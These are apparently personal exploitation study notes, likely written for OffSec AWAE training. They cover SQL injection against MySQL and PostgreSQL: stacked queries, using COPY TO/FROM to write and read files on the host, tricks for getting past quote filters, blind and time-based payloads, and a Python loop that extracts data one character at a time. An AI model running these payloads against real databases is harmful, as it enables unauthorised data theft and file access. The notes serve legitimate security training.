 # SQL Commands

# MySQL

- xx

### Filtered Characters

In some databases, special characters like `'` are HTML encoded before being sent to database. For MySQL, we can use ASCII characters in their hexadecimal notation. For instance,`0x206840783072` is converted to `h@x0r`.

# PostgreSQL

- Get version number: `select version()`
- List all databases: `\l`
- Access/switch to database: `\c <database>`
- List all tables: `\dt`
- Describe all tables: `\d`
- Stacked commands: `;`
- Ignore rest of line: `--` (or `--+` for URL encoded)

### Logging

To enable logging on PostgreSQL database, we edit its configuration file found atm `.\pgsql\data\amdb\postgresql.conf` .

```java
log_statement = 'all'			# none, ddl, mod, all
Remember to remove the # in front of the statement. 
```

After enabling that line, launch services.msc and restart the application service. 

### SQLi

For PostgreSQL, we can use **stacked queries** to perform SQLi. This means that we can use the `;` character to separate a new command to inject. 

If we have database admin, we can also use the `COPY TO` statement to write to a file to gain SYSTEM access. 

```sql
COPY SELECT($$AWAE$$) TO $$C:\Users\Public\offsec.txt$$
```

We can also read files by loading the contents of a file into a table and then reading that table. 

```sql
CREATE temp table read_file(content text);
COPY read_file FROM $$C:\Users\Public\offsec.txt$$;
SELECT * FROM read_file;
DROP TABLE read_file;
```

### Database Admin Privilege

```sql
SELECT current_setting('is_superuser');
SELECT CASE WHEN (SELECT current_setting($$is_superuser$$))=$$on$$ THEN pg_sleep(10) END;
```

### Filtered Characters

When characters like `'` are HTML encoded, we can use CHR() representation to bypass this restriction. However, this only works for simple statements like SELECT and INSERT (`SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);`)and not more complex statements like `COPY TO`. 

Instead, we can use `$$` to demarcate the start and end of the string instead. This works with any native PostgreSQL functions that CHR may be unable to work with. Alternatively, `$TAG$` also works as string marker. 

## SQL Injections

### Blind SQL Injection Methodology

For blind SQL injections (time or boolean-based), we can exfiltrate data character by character. This can be done by using a case statement that checks against a substring. 

```sql
-- MySQL:
"test')/**/or/**/(ascii(substring((select/**/CURRENT_USER()),<num>,1)))=<inj>%23"

-- Postgres:
select case when substring(cast(loid as varchar),1,1)=$$8$$ then pg_sleep(3) else pg_sleep(0) end from pg_largeobject limit 1
```

We can then iterate against a set character list (or more narrow lists of specific character types like integers or letters). 

```python
ascii_list = list(range(48,57)) + list(range(97, 123)) + list(range(32,48)) + list(range(57,64)) + list(range(90,97)) + list(range(123,127)) + list(range(64,90))
# List of characters in (rough) order of frequency
# Numbers, small letters, punctuation, big letters (from 32 to 127)

output = "" # If we already have stuff, can start output with value and change starting i
for i in range(1,100):
    new_character = False
    for c in ascii_list: # ASCII letters, numbers and punctuation
        query_string = f"test')/**/or/**/(ascii(substring(({inj}),{i},1)))={c}%23"
        res = searchFriends_sqli(ip, query_string)
        # print(f"Checking {chr(c)}: {query_string} -- {res}")
        if res == True:
            new_character = True
            output += chr(c)
            print(f"Success, adding {chr(c)} -- {output}")
            break
    if not new_character:
        print("No possible characters, breaking now!")
        break
print(f"Extracted data: {output}")
return output
```

### Time-Based SQL Injection

Time-based SQL injections involve using the total time elapsed by a POST request. The following code provides the runtime of the POST request:

```python
r = s.post(target,data=data,headers=headers,verify=False)
# Return total runtime
return r.elapsed.total_seconds()
```

For Postgres, time-based SQL injections can be done using the `pg_sleep()` function. For MySQL, time-based SQLi can be done using the `sleep()` function.